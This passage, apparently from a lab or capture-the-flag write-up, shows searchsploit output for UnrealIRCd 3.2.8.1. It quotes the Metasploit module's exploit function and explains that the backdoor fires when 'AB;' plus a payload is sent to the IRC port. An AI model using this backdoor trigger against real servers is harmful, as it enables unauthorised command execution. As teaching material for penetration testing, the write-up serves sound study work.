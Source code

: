 I'll close that windows and see the main windows. Nothing going on here.

![](/img/1554377849545.png)

#### Exploits

`nmap` also gave me the name of the irc server, UnrealIRCd.
`searchsploit` shows there are exploits if the version is 3.2.8.1:



    root@kali# searchsploit UnrealIRCd
    -------------------------------------------------------------------- ----------------------------------------
     Exploit Title                                                      |  Path
                                                                        | (/usr/share/exploitdb/)
    -------------------------------------------------------------------- ----------------------------------------
    UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)        | exploits/linux/remote/16922.rb
    UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow             | exploits/windows/dos/18011.txt
    UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                      | exploits/linux/remote/13853.pl
    UnrealIRCd 3.x - Remote Denial of Service                           | exploits/windows/dos/27407.pl
    -------------------------------------------------------------------- ----------------------------------------
    Shellcodes: No Result



I'll ignore the two for Windows, and take a closer look at the two on
Linux. The first is a Metasploit module. I'll use `-x` in `searchsploit`
to examine the code, `searchsploit -x exploits/linux/remote/16922.rb`.
Towards the bottom, I see this function:



    def exploit
        connect

        print_status("Connected to #{rhost}:#{rport}...")
        banner = sock.get_once(-1, 30)
        banner.to_s.split("\n").each do |line|
        print_line("    #{line}")
        end

        print_status("Sending backdoor command...")
        sock.put("AB;" + payload.encoded + "\n")

        handler
        disconnect
    end



It looks like the exploit is to connect and then send "AB;" + the
payload + "\\n".
